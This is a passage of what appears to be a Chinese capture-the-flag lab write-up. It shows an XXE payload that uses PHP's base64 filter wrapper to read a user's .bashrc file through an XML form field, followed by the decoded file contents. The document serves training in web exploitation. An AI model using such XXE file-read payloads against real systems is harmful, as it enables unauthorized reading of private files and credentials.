 没有读取到，需要用php的base64封装器读取

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxetest SYSTEM 'php://filter/convert.base64-encode/resource=/home/saket/.bashrc'>]>
<root>
	<name>a</name>
	<tel>a</tel>
	<email>&xxetest;</email>
	<password>a</password>
</root>
```

![](../images/pics/打靶/22.jpg)

读取成功，解码

```
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

# don't put duplicate lines or lines starting with space in the history.
# See bash(1) for more options
HISTCONTROL=ignoreboth

# append to the history file, don't overwrite it
shopt -s histappend

# for setting history length see HISTSIZE and HISTFILESIZE in bash(1)
HISTSIZE=1000
HISTFILESIZE=2000

# check the window size after each command and, if necessary,
# update the values of LINES and COLUMNS.
shopt -s checkwinsize

# If set, the pattern "**" used in a pathname expansion context will
# match all files and zero or more directories and subdirectories.
#shopt -s globstar

# make less more friendly for non-text input files, see lesspipe(1)
[ -x /usr/bin/lesspipe ] && eval "$(SHELL=/bin/sh lesspipe)"

# set variable identifying the chroot you work in (used in the prompt below)
if [ -z "${debian_chroot:-}" ] && [ -r /etc/debian_chroot ]; then
```